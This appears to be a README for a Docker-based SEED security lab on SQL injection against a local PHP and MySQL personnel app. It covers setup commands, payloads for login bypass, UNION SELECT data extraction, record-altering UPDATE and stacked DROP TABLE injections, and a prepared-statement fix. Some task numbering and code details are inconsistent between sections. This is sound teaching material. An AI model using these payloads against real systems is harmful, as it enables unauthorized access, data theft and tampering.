


# Lab 01 — SQL Injection Attack Lab

**Implementation Type**: Official SEED source adapted for Docker

Official lab manual: https://seedsecuritylabs.org/Labs_20.04/Web/Web_SQL_Injection/
Textbook: Chapter 12 — SQL Injection Attack (*Computer & Internet Security*, 2nd Ed., Prof. Wenliang Du)
Lecture Sync Sitemap: [SEED Lecture & Reference Sitemap](../../docs/lectures-and-references.md#2-lab-01--sql-injection-attack)
CWE Reference: [CWE-89: Improper Neutralization of Special Elements used in an SQL Command](https://cwe.mitre.org/data/definitions/89.html)

For authorized educational use only.

> **HOST BROWSER ROUTING NOTICE**: Access the application in host browsers via `http://localhost:10080` (or `http://www.seed-server.com:10080` if `127.0.0.1 www.seed-server.com` is in your host hosts file). Do not use internal container IP `10.9.0.5` directly in host browsers.  
> **CONTAINER COMMAND FALLBACKS**: If `bash` is missing: `docker exec -it www-10.9.0.5 sh`. If `ip` is missing: `hostname -i`. If `ss` is missing: `netstat -tlnp`.

---

---

## 📖 The SQL Injection Story: The Corporate Personnel System

### Act 1 — The Corporate Employee Portal
* The fictional company maintains an internal **Personnel Database System** at **`http://localhost:10080`** (`www.seed-server.com:10080`).
* Employees such as **Ted** (`Salary: $10,000`), **Alice** (`Salary: $20,000`), and **Boby** (`Salary: $30,000`) look up colleagues and access their private salary records.
* The backend database is MySQL (`sqllab_users`), with tables `credential` (usernames, encrypted passwords, roles) and `employee` (names, SSNs, salaries, phone numbers).

### Act 2 — The Vulnerability (Unsafe String Concatenation)
The PHP web server constructs SQL queries by directly concatenating raw strings entered into search and login boxes:
```php
$sql = "SELECT * FROM credential WHERE Name='$username' AND Password='$password'";
```
* If an attacker enters standard text, the query works normally.
* If an attacker inputs SQL boundary characters (single quote `'`, comment `#` or `--`), the database parser is tricked into treating user data as **executable SQL syntax**.

### Act 3 — The Exploitation Tasks (As per Official SEED Lab)



---

## 🗄️ Database Forensics: Live Inspection

Inspect the MySQL container to observe tables and record modifications:

```powershell
# 1. Inspect user credentials table
docker exec mysql-10.9.0.6 mysql -u root -pdees sqllab_users -e "SELECT id, Name, Password, Role FROM credential;"

# 2. Inspect employee salary and personnel table
docker exec mysql-10.9.0.6 mysql -u root -pdees sqllab_users -e "SELECT Eid, Name, Salary, SSN, PhoneNumber FROM employee;"
```

---

## 🧪 Official Lab Tasks Walkthrough

### Task 1 — Familiarization with MySQL CLI
Log in to the database container and practice running standard queries:
```powershell
docker exec -it mysql-10.9.0.6 mysql -u root -pdees sqllab_users
```
```sql
SELECT * FROM credential WHERE Name='Alice';
SELECT * FROM employee WHERE Salary > 15000;
```

### Task 2 — SQL Injection on SELECT Statements
* **Task 2.1: Login Authentication Bypass**
  * Target: Login Form
  * Input in Username: `admin'#` or `admin' -- `
  * Input in Password: any text
  * **Result:** Password check is commented out; attacker logs in as Admin.
* **Task 2.2: Employee Search Data Exfiltration via `UNION SELECT`**
  * Target: Employee Search box
  * Input: `' UNION SELECT 1, Name, Password, 4, 5, 6 FROM credential #`
  * **Result:** Dumps secret password hashes from the `credential` table directly into the public search results.

### Task 3 — SQL Injection on UPDATE Statements
* **Task 3.1: Modifying Salary Records**
  * Target: Edit Profile / Nickname form
  * Input in Nickname: `test', Salary='999999' WHERE Name='Alice'; -- `
  * **Result:** Alice's salary in the `employee` table is forcefully updated to $999,999.

### Task 4 — SQL Injection on Multi-Statements
* In systems with multi-query support (`mysqli::multi_query`), entering `; DROP TABLE dummy_table;` executes stacked queries sequentially.

---

## 🛡️ Step-by-Step Remediation: Parameterized Prepared Statements

The vulnerability is eliminated by compiling the SQL structure before binding data:

```php
// SECURE: Database compiles the template first; data can NEVER alter query syntax
$stmt = $conn->prepare("SELECT * FROM credential WHERE Name=? AND Password=?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
$result = $stmt->get_result();
```

---

## Container Architecture

```
HOST MACHINE
  |
  | Hosts file: www.seed-server.com -> 127.0.0.1 (or localhost:10080)
  | Port mapping: host:10080 -> container:80
  |
  Docker Bridge Network: net-10.9.0.0-sqli (10.9.0.0/24)
    |
    +---- www-10.9.0.5   (Apache 2.4 + PHP + vulnerable app, Port 80)
    |         |
    |         | MySQL connection to 10.9.0.6:3306
    |         |
    +---- mysql-10.9.0.6 (MySQL 8.0 + sqllab_users database)
```



---

## Layer 1 — Docker Commands (run on your host terminal)

### Start the Lab

```bash
# Navigate to this lab directory
cd labs/01-sql-injection

# Run startup script (PowerShell on Windows)
.\start.ps1

# OR run startup script (Linux / WSL2 bash)
./start.sh

# OR build and start containers manually using Docker Compose
docker compose up -d --build
```

### Verify Container Status

```bash
# Check that both containers are running and healthy
docker compose ps

# Inspect allocated container IPs and network settings
docker inspect www-10.9.0.5
docker inspect mysql-10.9.0.6
```

### Stream Runtime Logs

```bash
# Stream Apache and MySQL logs from host (no need to enter container)
docker compose logs -f www
docker compose logs -f mysql

# View last 30 lines only
docker compose logs --tail 30 www
```

---

## Layer 2 — Linux Commands (inside the container)

### Step 1: Open a Bash Shell Inside the Web Container

```bash
docker exec -it www-10.9.0.5 bash
```

Your prompt changes from your host prompt to the container prompt:

```
Before: PS C:\> (Windows)  OR  user@host:~$ (Linux)
After:  root@www-10.9.0.5:/#
```

You are now inside the container's Linux user space.

---

### Step 2: Establish Identity

```bash
whoami
# root

id
# uid=0(root) gid=0(root) groups=0(root)

hostname
# www-10.9.0.5

ip addr show
# Look for eth0 showing inet 10.9.0.5/24
```

---

### Step 3: Inspect the Web Application Files

```bash
# Navigate to the Apache document root — this is where PHP files are served from
cd /var/www/html

# List all files with permissions, ownership, and sizes
# Look for index.php, unsafe_home.php — these contain the vulnerable query
ls -la

# Print the full PHP source — find the SQL query string concatenation
cat index.php

# Quickly locate every line that builds or executes a SELECT query
# This pinpoints exactly where user input is concatenated unsafely
grep -n "SELECT" index.php
```

---

### Step 4: Inspect Running Processes

```bash
# List every running process inside the container (Apache workers, PHP, etc.)
# Confirms Apache is actually serving requests
ps aux

# Show all TCP sockets currently listening (ss = socket statistics)
# Expect port 80 (Apache) and port 3306 if MySQL is on this container
ss -tlnp
```

---

### Step 5: Check Environment Variables

```bash
# List all environment variables set in the container
# Docker Compose injects DB credentials and hostnames here
env

# Print the MySQL hostname the PHP app will connect to
# Set in docker-compose.yml as MYSQL_HOST=10.9.0.6
echo $MYSQL_HOST
```

---

### Step 6: View Apache Logs Inside Container

```bash
# Stream Apache access log in real time (-f = follow, like 'tail -f')
# Each browser request or curl hit appears here immediately
# Format: IP - - [timestamp] "METHOD /path HTTP/1.1" status_code bytes
tail -f /var/log/apache2/access.log
```

---

### Step 7: Test Connectivity to MySQL Container

```bash
# Send 3 ICMP pings to the MySQL container IP to confirm network reachability
# Both containers share the Docker bridge network net-10.9.0.0-sqli
ping -c 3 10.9.0.6

# Open an interactive MySQL session directly from inside the www container
#   -h 10.9.0.6   : connect to the MySQL container by its internal IP
#   -u root       : use the root database user
#   -pdees        : password is 'dees' (set in docker-compose.yml)
#   sqllab_users  : the target database containing the credential table
mysql -h 10.9.0.6 -u root -pdees sqllab_users
```

---

### Step 8: Exit the Container Shell

```bash
exit
```

---

## Layer 3 — Security Tasks (browser + host terminal)

### Configure Hostname (Optional but Recommended)

**Windows — PowerShell as Administrator:**

```powershell
Add-Content "C:\Windows\System32\drivers\etc\hosts" "127.0.0.1   www.seed-server.com"
```

**Linux / WSL2:**

```bash
echo "127.0.0.1   www.seed-server.com" | sudo tee -a /etc/hosts
```

### Access the Vulnerable Application

```
http://localhost:10080          Direct — always works
http://www.seed-server.com:10080 With hosts file configured
```

---

### Task 2.1 — Authentication Bypass via Login Form

In the browser, go to the Login section and enter:

```
Username: admin'#
Password: (anything)
```

Observe successful login without knowing the password.

---

### Task 2.2 — Authentication Bypass via HTTP GET Request

```
http://www.seed-server.com:10080/unsafe_home.php?username=admin%27%23
```

---

### Task 3.1 — Data Exfiltration via UNION SELECT

```
admin' UNION SELECT 1,2,3,Salary,5,6,7,8,9,10,11 FROM credential#
```

---

### Task 3.2 — Modifying Database Records

```
admin'; UPDATE credential SET Salary=100000 WHERE Name='Alice'#
```

---

### Task 4 — Defending Against SQL Injection Using Prepared Statements

Edit `/var/www/html/index.php` inside the container or on your host machine to use PDO prepared statements:

```php
// Secure Prepared Statement Implementation
$stmt = $conn->prepare("SELECT * FROM credential WHERE Name = :name AND Password = :pass");
$stmt->bindParam(':name', $username);
$stmt->bindParam(':pass', $password);
$stmt->execute();
$result = $stmt->fetchAll();
```

Re-test `admin'#` in the login form. The attack fails because user input is treated strictly as literal data values rather than executable SQL syntax.

---

## Stop and Reset

```bash
# Stop containers but preserve database state
docker compose down

# Destroy containers AND reset database back to initial state
docker compose down -v
```

---

## § Complete Demonstration Walkthrough

Follow these steps in order from a cold machine. Every command is shown in both **PowerShell** (Windows) and **raw Docker / bash** equivalents.

---

### Step 0 — Verify Docker Desktop is Running

**PowerShell:**
```powershell
# Check Docker daemon responds
docker info | Select-String "Server Version"
```

**Raw Docker:**
```bash
docker info | grep "Server Version"
```

> **Expected:** A line like `Server Version: 27.x.x`
> **If it fails:** Open Docker Desktop from the Start menu and wait ~30 seconds for the engine to start, then re-run.

---

### Step 1 — Navigate to the Lab and Start Containers

**PowerShell:**
```powershell
cd C:\path\to\seed-web-security-docker\labs\01-sql-injection
.\start.ps1
```

**Raw Docker Compose (equivalent):**
```bash
cd labs/01-sql-injection
docker compose up -d --build
```

> `--build` forces image rebuild from Dockerfiles. On first run, this pulls `mysql:8.0` and `handsonsecurity/seed-server:apache-php` base images (~500 MB total). Subsequent starts use the cached layers and complete in seconds.

---

### Step 2 — Verify Containers Are Running

**PowerShell / Raw Docker (identical):**
```bash
docker compose ps
```

**Expected output:**
```
NAME              IMAGE                    STATUS          PORTS
www-10.9.0.5      seed-image-www-sqli      Up              0.0.0.0:10080->80/tcp
mysql-10.9.0.6    seed-image-mysql-sqli    Up              3306/tcp
```

Both containers must show `Up`. If either shows `Exiting`, run:
```bash
docker compose logs www
docker compose logs mysql
```

**Inspect container IP (optional):**
```bash
docker inspect www-10.9.0.5 | grep "IPAddress"
# Expected: "IPAddress": "10.9.0.5"
```

---

### Step 3 — Configure the Hosts File (One-Time Setup)

This maps the hostname `www.seed-server.com` to your local machine so the browser URL works exactly as the lab expects.

**PowerShell (run as Administrator):**
```powershell
Add-Content "C:\Windows\System32\drivers\etc\hosts" "127.0.0.1   www.seed-server.com"
```

**Verify the entry was added:**
```powershell
Get-Content "C:\Windows\System32\drivers\etc\hosts" | Select-String "seed-server"
```

> **Note:** If you skip this step, always use `http://localhost:10080` instead of `http://www.seed-server.com:10080`. Both work identically.

---

### Step 4 — Open the Vulnerable Application in a Browser

Open your browser and navigate to:

```
http://localhost:10080
```
or (with hosts file configured):
```
http://www.seed-server.com:10080
```

**What you should see:** A login form with fields `Username` and `Password` on a plain HTML page titled "SQL Injection Lab". If the page does not load, wait 10 seconds and refresh (MySQL may still be initialising).

---

### Step 5 — Task 2.1: Authentication Bypass via Login Form

**Goal:** Log in as `admin` without knowing the password by injecting SQL comment syntax into the username field.

1. On the login page, enter:
   - **Username:** `admin'#`
   - **Password:** `anything` (e.g., `wrongpassword`)
2. Click **Login**.

**What happens internally — the constructed query:**
```sql
-- Your input transforms the query into:
SELECT * FROM credential WHERE Name='admin'#' AND Password='wrongpassword'
-- Everything after # is a SQL comment and is ignored.
-- Password check is completely bypassed.
```

**Expected outcome:** You are logged in and see Alice/admin's credential data displayed (Name, EID, Salary, SSN, etc.).

**Watch the request in real time (open a second terminal):**
```bash
docker exec -it www-10.9.0.5 tail -f /var/log/apache2/access.log
```

---

### Step 6 — Task 2.2: Authentication Bypass via HTTP GET Request

Perform the same attack without touching the login form — directly via a crafted URL.

Paste this URL into the browser address bar:

```
http://www.seed-server.com:10080/unsafe_home.php?username=admin%27%23&Password=anything
```

> `%27` = URL-encoded single quote `'`  
> `%23` = URL-encoded hash `#`

**Expected outcome:** Identical to Task 2.1 — admin's record is returned with no password required.

---

### Step 7 — Task 3.1: Data Exfiltration via UNION SELECT

**Goal:** Retrieve salary data from the `credential` table using a `UNION SELECT` injection.

On the login form, enter:
- **Username:** `admin' UNION SELECT 1,2,3,Salary,5,6,7,8,9,10,11 FROM credential#`
- **Password:** `anything`

**What this does:**
```sql
SELECT * FROM credential WHERE Name='admin'
UNION SELECT 1,2,3,Salary,5,6,7,8,9,10,11 FROM credential#...
```

**Expected outcome:** The page renders a table displaying every user's salary from the database — data the login page was never designed to expose.

---

### Step 8 — Task 3.2: Modify Database Records via Injection

**Goal:** Use a stacked query to change a record in the database.

On the login form, enter:
- **Username:** `admin'; UPDATE credential SET Salary=100000 WHERE Name='Alice'#`
- **Password:** `anything`

**Verify the change directly in MySQL:**

**PowerShell / Raw Docker:**
```bash
docker exec -it mysql-10.9.0.6 mysql -u root -pdees sqllab_users -e "SELECT Name, Salary FROM credential;"
```

**Expected output:** Alice's Salary column now shows `100000`.

---

### Step 9 — Task 4: Defense Using Prepared Statements

**Goal:** Patch the vulnerability and verify the attacks now fail.

**Step 9a — Enter the web container:**
```bash
docker exec -it www-10.9.0.5 bash
```

**Step 9b — Edit the vulnerable PHP file:**
```bash
nano /var/www/html/unsafe_home.php
```

**Step 9c — Replace the unsafe query block with this prepared statement:**
```php
// SECURE — Parameterized prepared statement
$stmt = $conn->prepare("SELECT * FROM credential WHERE Name = :name AND Password = :pass");
$stmt->bindParam(':name', $username);
$stmt->bindParam(':pass', $password);
$stmt->execute();
$result = $stmt->fetchAll();
```

**Step 9d — Exit the container:**
```bash
exit
```

**Step 9e — Re-test the attack:**
- Enter `admin'#` in the Username field.
- **Expected outcome:** Login fails with an error or invalid credentials message. The SQL injection characters are now treated as literal text, not SQL syntax.

---

### Step 10 — Teardown

**Stop containers (preserves database state):**

**PowerShell:**
```powershell
docker compose down
```

**Raw Docker:**
```bash
docker compose down
```

**Stop AND wipe database (full reset to initial state):**
```bash
docker compose down -v
```

**Verify everything is stopped:**
```bash
docker ps | grep sqli
# Expected: no output (no sqli containers running)
```
